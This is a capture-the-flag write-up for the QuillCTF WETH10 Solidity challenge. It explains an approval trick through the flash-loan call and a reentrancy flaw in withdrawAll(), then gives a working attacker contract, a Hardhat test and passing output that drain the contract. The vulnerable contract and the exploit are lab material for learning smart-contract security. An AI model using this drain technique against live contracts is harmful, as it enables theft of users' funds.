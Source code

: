 # QuillCTF : WETH 10

## Objective of CTF

The contract currently has 10 ethers. (Check the Foundry configuration.)
You are Bob (the White Hat). Your job is to rescue all the funds from the contract, starting with 1 ether, in only one transaction.

### Contract code
```solidity
pragma solidity ^0.8.0;

import {ERC20} from "@openzeppelin/contracts/token/ERC20/ERC20.sol";
import {ReentrancyGuard} from "@openzeppelin/contracts/security/ReentrancyGuard.sol";
import {Address} from "@openzeppelin/contracts/utils/Address.sol";

// The Messi Wrapped Ether
contract WETH10 is ERC20("Messi Wrapped Ether", "WETH10"), ReentrancyGuard {
    receive() external payable {
        deposit();
    }

    function _burnAll() internal {
        _burn(msg.sender, balanceOf(msg.sender));
    }

    function deposit() public payable nonReentrant {
        _mint(msg.sender, msg.value);
    }

    function withdraw(uint256 wad) external nonReentrant {
        Address.sendValue(payable(msg.sender), wad);
        _burn(msg.sender, wad);
    }

    function withdrawAll() external nonReentrant {
        Address.sendValue(payable(msg.sender), balanceOf(msg.sender));
        _burnAll();
    }

    /// @notice Request a flash loan in ETH
    function execute(address receiver, uint256 amount, bytes calldata data) external nonReentrant {
        uint256 prevBalance = address(this).balance;
        Address.functionCallWithValue(receiver, data, amount);

        require(address(this).balance >= prevBalance, "flash loan not returned");
    }
}
```

The contract has a flash loan feature, where we can call any address as the WETH10 contract with any calldata, however all functions in the WETH10 contract has `nonReentrant` modifier, so it will revert if we call those functions with `execute()`

However, it inherits openzeppelin ERC20.sol, which the ERC20 functions don't have `nonReentrant` modifier, so we can use the `execute()` to call functions like `approve()` to approve ourselves to transfer WETH10 away from the WETH10 contract 

However this vulnerability alone could not drain the contract, as it just has 10 ether in balance, but it has no WETH10 token at all

Another vulnerability is in `withdrawAll()`, it does not follow the checks effects interactions pattern and is vulnerable to reentrancy

It will first check the caller's WETH10 balance, then call the caller to send the WETH10 balance, then execute `_burnAll()`, which it will check our WETH10 balance again and burn all tokens we have

However, as it check for our WETH10 balance twice, and in between it calls the caller, so reentrancy is possible

Even `withdrawAll()` has `nonReentrant` modifier, ERC20 functions don't have, after it send the ether back to us, we can call the ERC20 `transfer()`, to transfer all our tokens away, so our balance will be changed to 0 when it checks our balance in `_burnAll()`, and no tokens will be burned, with this we can mint tokens out of thin air

For convenience, we can just transfer our balance away to the WETH10 contract, as we already approved ourselves on behalf on the WETH10 contract, we can transfer the tokens back at any time, or an alternative way is to deploy another contract that we control and have it hold the 
tokens for the us

### Attacker contract

```soldity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./weth10.sol";

contract WETH10Solve {
    
    function exploit(address payable weth10) public payable {
        require(msg.value == 0.5 ether, "Invalid msg.value");
        // approve ourselves as the WETH10 contract, so we can transfer token out of it later
        WETH10(weth10).execute(weth10, 0, abi.encodeWithSelector(ERC20.approve.selector, address(this), type(uint256).max));
        
        // mint 10 ether of WETH10 to WETH10 contract, without losing 1 wei
        for (uint i; i < 20; ++i) {
            WETH10(weth10).deposit{value: 0.5 ether}();
            WETH10(weth10).withdrawAll();
        }
        // transfer the WETH10 from the WETH10 contract back to us, as we have infinite allowance, and withdraw all WETH10 token to get back ether
        WETH10(weth10).transferFrom(weth10, address(this), WETH10(weth10).balanceOf(weth10));
        WETH10(weth10).withdrawAll();
        // send ether back to attacker EOA
        payable(msg.sender).transfer(address(this).balance);
    }
    
    fallback() external payable {
        // when withdrawAll() is called, and ether is send back to this contract, we will transfer our WETH10 tokens away, as transfer() is from ERC20.sol and has no ReentrancyGuard, 
        // so our WETH10 balance will be 0, and when it check our WETH10 balance again in _burnAll(), there will be 0 tokens to burn from us
        // we will transfer the tokens to the WETH10 contract, as we have infinite allowance, we can take it back at any time, or we can also deploy another contract to transfer WETH10 to
        WETH10(payable(msg.sender)).transfer(msg.sender, WETH10(payable(msg.sender)).balanceOf(address(this)));
    }
}
```

## Proof of concept

### Hardhat test

```js
const { expect } = require("chai");
const { ethers } = require("hardhat");

describe('QuillCTF : WETH10', () => {

  before(async () => {
    [owner, bob] = await ethers.getSigners();
    contract = await ethers.getContractFactory('WETH10', owner).then(f => f.deploy());
    await contract.deployed();
    // https://github.com/NomicFoundation/hardhat/issues/1585
    // The contract currently has 10 ethers
    await ethers.provider.send("hardhat_setBalance", [contract.address, ethers.utils.hexStripZeros(ethers.utils.parseEther('10').toHexString())]);
    expect(await ethers.provider.getBalance(contract.address)).to.equal(ethers.utils.parseEther('10'));
    // Bob starting with 1 ether
    await ethers.provider.send("hardhat_setBalance", [bob.address, ethers.utils.hexStripZeros(ethers.utils.parseEther('1').toHexString())]);
    expect(await ethers.provider.getBalance(bob.address)).to.equal(ethers.utils.parseEther('1'));
  });

  it('Rescue all the funds from the contract', async () => {
    // deploy the attacker contract
    attackerContract = await ethers
      .getContractFactory('WETH10Solve', bob)
      .then(f => f.deploy());
    await attackerContract.deployed();
    await attackerContract.connect(bob).exploit(contract.address, {value: ethers.utils.parseEther('0.5')});
    // empty weth contract
    expect(await ethers.provider.getBalance(contract.address)).to.equal(0);
    // player should end with 11 ether
    expect(await ethers.provider.getBalance(bob.address)).to.be.gt(ethers.utils.parseEther('10'));
  });
});
```

### Hardhat test output

```
# npx hardhat test test/weth10.js 


  QuillCTF : WETH10
    ✔ Rescue all the funds from the contract (726ms)


  1 passing (3s)
```